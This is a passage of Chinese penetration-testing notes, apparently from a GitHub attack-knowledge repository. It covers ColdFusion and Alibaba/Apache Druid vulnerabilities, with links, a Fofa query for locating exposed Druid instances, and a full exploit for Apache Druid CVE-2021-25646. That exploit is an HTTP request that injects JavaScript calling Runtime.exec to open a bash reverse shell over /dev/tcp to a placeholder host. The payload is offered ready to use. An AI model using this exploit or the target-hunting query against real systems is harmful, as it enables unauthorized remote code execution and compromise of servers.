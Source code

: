 
### ColdFusion

**CVE-2017-3066 反序列化漏洞**
- POC | Payload | exp
    - https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md

---

### Druid

#### Alibaba_Druid

**未授权访问**
- 相关文章
    - [Druid未授权（弱口令）的一些利用方式](https://www.cnblogs.com/cwkiller/p/12483223.html)
    - [Druid未授权漏洞实战利用](https://www.t00ls.net/articles-62541.html)

- 相关工具
    - [yuyan-sec/druid_sessions](https://github.com/yuyan-sec/druid_sessions)

#### Apache_Druid

> 官网 : https://druid.apache.org/

> Fofa : title="Apache"&&title="Druid"

Apache Druid 是用 Java 编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。

**CVE-2021-25646**
- 简介

    Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用Druid服务器上进程的特权执行任意代码。

- 影响版本
    - Apache Druid < 0.20.1

- 相关文章
    - [Apache Druid 远程代码执行漏洞 CVE-2021-25646](http://wiki.peiqi.tech/PeiQi_Wiki/Web%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%BC%8F%E6%B4%9E/Apache/Apache%20Druid/Apache%20Druid%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2021-25646.html)
    - [漏洞复现: Apache Druid 远程代码执行漏洞 (CVE-2021-25646)](https://paper.seebug.org/1476/)

- POC | Payload | exp
    ```
    POST /druid/indexer/v1/sampler HTTP/1.1
    Host: xxxxx
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
    Accept: application/json, text/plain, */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Content-Type: application/json
    Content-Length: 1044
    Connection: close

    {"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2020-12-12T12:10:21.040Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx/xxx 0>&1')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
    ```
